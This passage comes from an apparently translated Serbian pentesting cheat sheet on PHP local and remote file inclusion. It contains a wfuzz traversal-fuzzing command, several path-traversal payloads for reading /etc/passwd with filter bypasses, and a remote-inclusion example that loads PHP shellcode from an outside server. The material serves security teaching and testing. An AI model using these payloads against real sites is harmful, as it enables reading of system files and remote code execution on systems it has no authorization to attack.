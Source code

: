 Ranjive **PHP funkcije**: require, require\_once, include, include\_once

Zanimljiv alat za iskorišćavanje ove ranjivosti: [https://github.com/kurobeats/fimap](https://github.com/kurobeats/fimap)

## Slepo - Zanimljivo - LFI2RCE datoteke

```python
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

### **Linux**

**Mešanje nekoliko \*nix LFI lista i dodavanje više putanja stvorilo je ovu:**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt" %}

Pokušajte takođe da promenite `/` u `\`\
Pokušajte takođe da dodate `../../../../../`

Lista koja koristi nekoliko tehnika za pronalaženje datoteke /etc/password (kako bi se proverilo postojanje ranjivosti) može se pronaći [ovde](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)

### **Windows**

Spajanje različitih wordlisti:

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt" %}

Pokušajte takođe da promenite `/` u `\`\
Pokušajte takođe da uklonite `C:/` i dodate `../../../../../`

Lista koja koristi nekoliko tehnika za pronalaženje datoteke /boot.ini (kako bi se proverilo postojanje ranjivosti) može se pronaći [ovde](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### **OS X**

Proverite LFI listu za linux.

## Osnovni LFI i obilazi

Svi primeri su za Lokalnu Inkluziju Datoteka, ali se mogu primeniti i na Udaljenu Inkluziju Datoteka (stranica=[http://myserver.com/phpshellcode.txt\\](http://myserver.com/phpshellcode.txt\)/).

```
http://example.com/index.php?page=../../../etc/passwd
```

### sekvence prolaza bez rekurzije bez uklanjanja

```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
